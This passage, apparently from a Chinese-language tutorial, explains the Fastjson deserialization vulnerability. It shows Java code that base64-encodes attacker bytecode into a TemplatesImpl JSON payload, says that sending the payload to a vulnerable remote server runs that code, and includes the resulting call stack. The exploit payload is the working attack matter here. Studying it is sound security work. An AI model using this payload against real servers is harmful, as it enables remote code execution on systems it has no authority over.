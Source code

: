 ```java
        int len = 0;
        while ((len = inputStream.read(bytes)) != -1){
            outputStream.write(bytes, 0, len);
        }
        //编译字节码为base64
        BASE64Encoder encoder = new BASE64Encoder();
        String base64Str = encoder.encode(outputStream.toByteArray()).replace("\n", "");
        //构造json
        String templatesImpl = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String sb = "{\"@type\":\"" +
                templatesImpl +
                "\",\"_bytecodes\":[\"" +
                base64Str +
                "\"], \"_name\":\"a.b\", \"_tfactory\":{},\"_outputProperties\":{ }}";
        //序列化对象
        Object o = JSON.parseObject(sb, Object.class, Feature.SupportNonPublicField);
        System.out.println(o instanceof TemplatesImpl);
    }
}
```
执行该Main方法后就会执行ExecRun的构造函数。
可以通过上述构造的json提交远程服务器，如果服务器存在该反序列化漏洞，那么就会执行之前ExecRun中的方法。

执行的调用栈：
```log
java.lang.Thread.getStackTrace(Thread.java:1552)
com.whh.netty.ExecRun.<init>(ExecRun.java:18)
sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
java.lang.reflect.Constructor.newInstance(Constructor.java:422)
java.lang.Class.newInstance(Class.java:442)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:408)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:439)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:460)
sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
java.lang.reflect.Method.invoke(Method.java:497)
com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:85)
com.alibaba.fastjson.parser.deserializer.DefaultFieldDeserializer.parseField(DefaultFieldDeserializer.java:83)
com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField(JavaBeanDeserializer.java:773)
com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:600)
com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:188)
com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:184)
com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:368)
com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1327)
com.alibaba.fastjson.parser.deserializer.JavaObjectDeserializer.deserialze(JavaObjectDeserializer.java:45)
com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:639)
com.alibaba.fastjson.JSON.parseObject(JSON.java:339)
com.alibaba.fastjson.JSON.parseObject(JSON.java:302)
com.whh.netty.Main.main(Main.java:39)
```